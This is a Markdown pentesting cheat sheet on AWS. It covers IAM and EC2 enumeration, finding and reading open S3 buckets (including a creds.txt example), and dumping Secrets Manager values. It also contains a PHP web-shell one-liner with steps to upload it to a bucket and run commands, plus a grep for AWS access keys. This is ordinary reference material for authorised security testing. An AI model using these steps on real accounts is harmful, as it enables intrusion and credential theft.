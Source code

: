 ```yaml
---
title: Amazon Web Services (AWS) Pentesting
desc: It provides on-demand cloud computing platforms and APIs to individuals, companies, and governments, on a metered pay-as-you-go basis. 
tags: [Amazon, AWS, Cloud, S3, Web]
alts: []
render_with_liquid: false
---
```


## 1. Amazon Resource Names (ARNs)

```sh
# Format
arn:aws:<service>:<region>:<account_id>:<resource_type>/<resource_name>
```

<br />

## 2. Identify and Access Management (IAM)

```sh
# Add credentials
# This will add entries to .aws/config or .aws/credentials in user's home directory.
# <profile-name> is arbitrary.
aws configure --profile <profile-name>

# List credentials
aws configure list --profile <profile-name>



# Find the account id belonging to an access key (access key starts with "AKIA")
aws sts get-access-key-info --access-key-id AKIAQ31B...

# Determin the username the access key you're using belogns to
aws sts get-caller-identity --profile <profile-name>

# List all EC2 instances running in an account
aws ec2 describe-instances --output text --profile <profile-name>

# List all EC2 instances running in an account in a dirrerent region
aws ec2 describe-instances --output text --region us-east-1 --profile <profile-name>
```

<br />

## 3. Amazon S3

A public cloud storage resource available in Amazon Web Services (AWS) Simple Storage Service (S3), an object storage offering.

1. **S3 Bucket URLs Commonly Used**

    If you find images in target website, open the images new tab and check the URLs if they're stored in Amazon S3.  
    The following URLs templates are often used.

    ```
    http://example-assets.s3.amazonaws.com
    http://s3.amazonaws.com/example-assets/

    http://example-www.s3.amazonaws.com
    http://s3.amazonaws.com/example-www/

    http://example-public.s3.amazonaws.com
    http://s3.amazonaws.com/example-public/

    http://example-private.s3.amazonaws.com
    http://s3.amazonaws.com/example-private/

    http://example-bucket-zero.s3.amazonaws.com
    http://s3.amazonaws.com/example-bucket-zero/

    http://example-bucket-one.s3.amazonaws.com
    http://s3.amazonaws.com/example-bucket-one/

    http://example-bucket-two.s3.amazonaws.com
    http://s3.amazonaws.com/example-bucket-two/
    ```

2. **XML Content Discovery**

    Accessing the S3 Bucket URL, if the contents of XML,

    ```xml

    ...
    <Contents>
    <Key>creds.txt</Key>
    ...

    ```

    Retrieve the content by accessing to URL like https://vulnerable-assets.s3.amazonaws.com/creds.txt.

3. **AWS CLI**

    First off, you may need to configure aws.

    ```sh
    aws configure
    ```

    ```sh
    # http://<bucket-name>.s3.amazonaws.com

    # List contents of a bucket
    aws s3 ls s3://<bucket-name>/
    aws s3 ls s3://<bucket-name>/ --no-sign-request
    aws s3 ls s3://example.com

    # Specify the endpoint
    aws s3 --endpoint=http://example.com ls s3://example.com

    # Download files from s3
    aws s3 cp s3://<bucket-name>/example.xml .

    # Upload files to s3
    aws s3 cp ./example.txt s3://<bucket-name>

    # --------------------------------------------------------------

    # List all S3 buckets in the AWS account you've added.
    aws s3 ls --profile PROFILENAME
    ```

4. **Web Shell/Reverse Shell with CLI**

    1. **Prepare Web Shell**

        ```sh
        echo '<?php system($_GET["cmd"]); ?>' > shell.php
        ```

    2. **Upload the Web Shell**

        ```sh
        aws s3 cp ./shell.php s3://example.com
        # or
        aws s3 --endpoint=http://s3.example.com cp ./shell.php s3://example.com
        ```

        Check if uploaded

        ```sh
        aws s3 ls s3://example.com
        # or
        aws s3 --endpoint=http://s3.example.com ls s3://example.com
        ```

    3. **Execute Commands via Request**

        Send request to **http://example.com/shell.php?cmd=whoami** in browser or using **curl**.

<br />

## 4. Secrets Manager

```sh
# List secrets
aws secretsmanager list-secrets --profile <profile-name>

# Get secret value
# "secret-id" is the Name of the SecretList when run 'list-secrets'.
aws secretsmanager get-secret-value --secret-id <secret-id> --profile <profile-name>


# Help
aws secretsmanager help
```

<br />

## 5. Get Access Keys From Files

```sh
# Access Key ID starts with "AKIA"
grep -e AKIA ./*
```